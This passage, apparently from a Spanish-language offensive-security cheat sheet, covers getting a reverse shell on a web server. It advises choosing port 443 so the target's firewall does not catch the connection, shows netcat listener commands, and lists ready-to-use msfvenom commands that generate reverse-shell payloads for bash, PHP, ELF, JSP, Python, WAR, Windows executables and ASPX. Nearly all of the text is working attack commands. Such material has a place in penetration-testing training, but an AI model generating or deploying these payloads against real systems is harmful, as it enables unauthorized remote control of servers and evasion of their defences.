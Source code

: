 Lo único que tendríamos que cambiar es la IP y el puerto, el cual vamos a utilizar el 443 para evitar que nos caze el firewall de la página web. Solo nos quedaría subirla y quedarnos en escucha en dicho puerto:

```
nc -lvp 443  # Linux
rlwrap nc -lvp 443  # Windows
```

### __Msfvenom__

Creando nuestro propio payload con msfvenom es otra manera de alcanzar una reverse shell en el servidor. Tenemos varios tipos, os comento los mas comunes:

#### __BASH__

```
msfvenom -p cmd/unix/reverse_bash LHOST=<LOCAL-IP> LPORT=443 -f raw > shell.sh
```

#### __PHP__

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<LOCAL-IP> LPORT=443 -f raw > shell.php
```

#### __ELF executable__

```
msfvenom -p linux/x64/shell_reverse_tcp -f elf -o shell LHOST=<LOCAL-IP> LPORT=443
```

#### __JSP - Java Meterpreter Reverse TCP__

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LOCAL-IP> LPORT=443 -f raw > shell.jsp
```

#### __PYTHON__

```
msfvenom -p cmd/unix/reverse_python LHOST=<LOCAL-IP> LPORT=443 -f raw > shell.py
```

#### __WAR__

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LOCAL-IP> LPORT=443 -f war > shell.war
```

#### __WINDOWS__

```
msfvenom -p windows/shell_reverse_tcp lhost=<local-ip> lport=PORT -f exe -o revshell.exe  # EXECUTABLE file
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=<local-ip> LPORT=PORT -f aspx -o reverse.aspx  # ASPX file
```
